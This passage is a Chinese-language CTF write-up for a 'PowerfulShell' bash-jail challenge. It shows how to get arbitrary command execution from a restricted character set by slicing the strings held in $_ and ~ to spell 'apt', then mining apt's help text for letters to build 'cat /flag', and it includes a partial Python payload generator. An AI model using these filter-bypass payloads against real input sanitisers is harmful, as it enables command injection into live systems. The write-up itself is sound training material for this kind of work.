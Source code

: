 ## 0x08 PowerfulShell

看到题目：难道这就是传说中的Bash jail？题目中给定了bash eval，但输入的字符串只让使用少量特殊字符和数字，要做到任意命令执行。我们先拿printable减一下看看实际能用的字符有哪些。

```
['\t', '\n', '\x0b', '\x0c', '\r', ' ', '$', '+', '-', '1', '2', '3', '4', '5', '6', '7', '8', '9', ':', '=', '[', ']', '_', '`', '{', '|', '}', '~']
```

我们去直接google搜一下bash jail，容易发现一个类似的题目： https://github.com/trichimtrich/bashfuck/blob/master/bashfuck_linux.py。

阅读一下代码，基本思路是这样：首先我们可以用大量下划线来存储变量。用`${x:a:b}`的方法可以裁剪字符串，进而我们可以拼接任意字符串。同时，原题中我们可以利用中`$($x)`的方法来执行命令，进而获取到一个更长的输出，可以裁剪出更多的字符串。注意到虽然本题禁了括号，但是可以用\`，更方便了。同时，原题中使用`#`是为了获取字符串长度，进而避免使用数字。我们这个题可以很容易的使用数字（虽然0不行，但是可以用加减号就可以随便导出了）。此时基本思路已经成型了，考虑怎么构造字符集的迭代。

注意到原文中给的变量里面，至少存在两个环境规定的变量：`_`和`~`。本地起个docker测试一下，发现这两个分别是`input`和`/players`。我们考虑他能组成什么命令。我直接`ls /bin`，首先引入眼帘的就是`apt`，执行了一下，发现会吐一大坨东西，直接拿来构造任意字符串应该非常容易。因此我们直接构造`cat /flag`就行（造ls也完全没有问题）。

```python
import random

def safestr(v):
    if not "0" in str(v):
        return str(v)
    while True:
        va = random.randint(0,v+10) + v
        vb = va - v
        if "0" in str(va) or "0" in str(vb):
            continue
        return str(va) + "-" + str(vb)

def addchar(c,fr,inp,oup):
    assert c in fr
    k = fr.find(c)
    tmp = oup + "=$" + oup + "${" + inp + ":" + safestr(k) + ":1}\n"
    return tmp

cmd=""
cmd+="___=$_\n"
cmd+="____=~\n"
cmd+="__=\n"

c1="input"
c2="/players"

cmd+=addchar("a",c2,"____","__")
cmd+=addchar("p",c1,"___","__")
cmd+=addchar("t",c1,"___","__")

cmd+="___=`$__`\n"

c3="apt 2.4.13 (amd64) Usage: apt [options] command  apt is a commandline package manager and provides commands for searching and managing as well as querying information about packages. It provides the same functionality as the specialized APT tools, like apt-get and apt-cache, but enables options more suitable for interactive use by default.  Most used commands:   list - list packages based on package names   search - search in package descriptions   show - show package details   install - install packages   reinstall - reinstall packages   remove - remove packages   autoremove - Remove automatically all unused packages   update - update list of available packages   upgrade - upgrade the system by installing/upgrading packages   full-upgrade - upgrade the system by removing/installing/upgrading packages   edit-sources - edit the source information file   satisfy - satisfy dependency strings  See apt(8) for more information about the available commands. Configuration options and syntax is detailed in apt.conf(5). Information about how to configure sources can be found in sources.list(5). Package and version choices can be expressed via apt_preferences(5). Security details are available in apt-secure(8).                                         This APT has Super Cow Powers. "
```